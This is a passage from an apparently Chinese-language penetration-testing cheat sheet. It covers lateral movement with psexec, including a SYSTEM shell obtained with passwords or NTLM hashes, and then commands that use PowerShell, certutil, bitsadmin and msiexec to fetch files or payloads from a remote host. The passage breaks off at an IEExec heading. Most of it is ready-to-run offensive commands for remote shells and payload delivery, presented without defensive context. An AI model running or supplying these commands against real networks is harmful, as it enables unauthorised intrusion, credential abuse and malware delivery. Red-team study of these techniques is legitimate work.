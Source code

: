 ```
65001 Unicode (UTF-8)
```





#### 5-PsTools套件的使用

PsTools套件（[下载地址](https://download.sysinternals.com/files/PSTools.zip)）是微软收购的安全公司（Sysinternals）的一些产品，目前被微软系统信任，而其中的psexec在横向移动中经常使用，psexec连接之后弹回来的一般都是交互式的shell。

```
psexec.exe /accepteula \\ 192 .168.1.101 -u AD\administrator -p "admin" -s -c -f "cmd.exe"
弹回一个 system 权限的cmdshell
psexec.exe /accepteula \\ 192 .168.1.101 -u AD\administrator -p lm:ntlm -s -c -f "cmd.exe"
适合 03 以下的系统,不确定新版的psexec依旧支持ntlm
```

其实更多的连接方式还有 wmiexec和smbexec， 两者都可在github社区中找到，比较简单的就是在 impacket 工具包找到相关文件（[项目地址](https://github.com/SecureAuthCorp/impacket)），使用方法自行查阅帮助文档，这里不再赘述。

### 三、通过命令行下载文件

#### 1-powershell （win2003、winXP不支持）

```
powershell - exec bypass - c (new-object
System.Net.WebClient).DownloadFile('http://192.168.1.101/test.txt','c:\test.txt')
```

#### 2-Certutil

参考链接：[微软官方介绍](https://technet.microsoft.com/zh-cn/library/cc773087(WS.10).aspx)

```
certutil.exe -urlcache -split -f http://192.168.1.1/test.txt file.txt
```



#### 3-bitadmin

参考链接：[微软官方介绍](https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx)

```
bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt
bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt
```



#### 4-msiexec

```
msiexec /q /i http://192.168.1.1/test.txt
```



#### 5-IEExec
